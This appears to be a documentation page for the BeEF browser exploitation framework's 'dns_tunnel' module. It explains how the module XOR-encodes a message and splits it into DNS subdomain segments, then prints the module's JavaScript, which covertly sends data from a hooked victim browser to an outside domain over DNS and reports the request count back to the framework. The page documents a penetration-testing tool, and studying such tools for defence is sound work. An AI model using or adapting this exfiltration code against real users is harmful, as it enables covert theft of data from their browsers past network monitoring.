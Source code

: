 ## Summary

* **Objective**: Sends obfuscated data one way over DNS
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/ipec/dns_tunnel)

## Internal Working

A domain and message are taken as input. The message is XOR'd, url encoded, the '%' are replaced with '.' and the message is split into segments of 230 bytes. The segments are sent in sequence along with the sequence number and XOR key.

### Note ###

A remote domain with a DNS server configured to accept wildcard subdomains is required to receive the data. BeEF does not support this feature so you're on your own when it comes to decoding the information.

```js

var encode_data = function(str) {
    var result="";
    for(i=0;i<str.length;++i) {
        result+=str.charCodeAt(i).toString(16).toUpperCase();
    }
    return result;
};

        
var msgId   = "<%= @command_id %>";
var wait    = "<%= @wait %>";
var domain  = "<%= @domain %>";
var message = "<%= @message %>";

beef.net.dns.send(msgId, message, domain, wait, function(num) { beef.net.send('<%= @command_url %>', <%= @command_id %>, 'dns_requests='+num+' requests sent') } );
```


## Feedback

